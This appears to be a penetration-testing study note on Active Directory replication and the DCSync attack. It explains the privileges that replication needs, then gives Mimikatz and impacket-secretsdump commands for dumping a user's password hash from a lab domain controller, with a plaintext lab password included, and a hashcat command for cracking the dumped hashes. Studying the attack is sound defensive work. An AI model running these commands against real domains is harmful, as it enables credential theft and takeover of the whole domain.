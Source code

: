 alias:: Domain Controller Synchronization

- Since the Domain Controller is a critical part of the AD infrastructure it's important to add redundancy. That can be acomplished by running multiple DC instances *(or replicas)* within the same domain.
- To help with that, the **[Directory Replication Service (DRS) Remote Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47?redirectedfrom=MSDN)** was implemented to allow synchronization among multiple DC instances.
- To synchronize *(download)* AD objects from a DC a user can call the [`IDL_DRSGetNCChanges`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b63730ac-614c-431c-9501-28d6aca91894) API *(part of DRS)*.
  *Ça va sans dire* that in order to succeed, the domain account submitting the request requires [some special privileges](https://www.secureideas.com/blog/the-other-replicating-directory-changes):
	- *Replicating Directory Changes*
	  logseq.order-list-type:: number
	- *Replicating Directory Changes All*
	  logseq.order-list-type:: number
	- *Replicating Directory Changes in Filtered Set*
	  logseq.order-list-type:: number
- Member of the following groups automatically get all the required permissions assigned.
	- Domain Admins
	- Enterprise Admins
	- Administrators
- #+BEGIN_WARNING
  Even if it's counter-intuitive, DC synchronization is not limited to domain controllers. Instead, any domain user with the right permissions can issue synchronization requests to DCs.
  
  IOW, we can dump all the secrets from an online DC if we perform the request from the right user.
  #+END_WARNING
- Synchronization requests can be send over LDAP or RPC. But DCs only expose password hashes via RPC.
- DCSync Attack
	- Once you got access to a user account in **one of those above mentioned groups** or with **all the above mentioned rights** assigned, then you can impersonate a domain controller. This allows you to request any user credentials from the domain.
	- From Windows
		- You can run [[Mimikatz]] from a domain-joined machine. Let use it to request Dave's password hash.
		  id:: 65a004e9-a008-4ad6-926f-fa50ba4608f6
			- ```
			  lsadump::dcsync /user:corp\dave
			  ```
			-
	- From Linux
		- With [[Impacket-secretsdump]]
			- ```bash
			  impacket-secretsdump \
			  	-just-dc-user dave \
			      corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
			  ```
- Crack retrieved hashes
	- With [[Hashcat]]
		- id:: 65a00895-d0d1-4168-9b92-6dfa7401d3d7
		  ```bash
		  hashcat -m 1000 hashes.dcsync \
		  	/usr/share/wordlists/rockyou.txt \
		      -r /usr/share/hashcat/rules/best64.rule \
		      --force
		  ```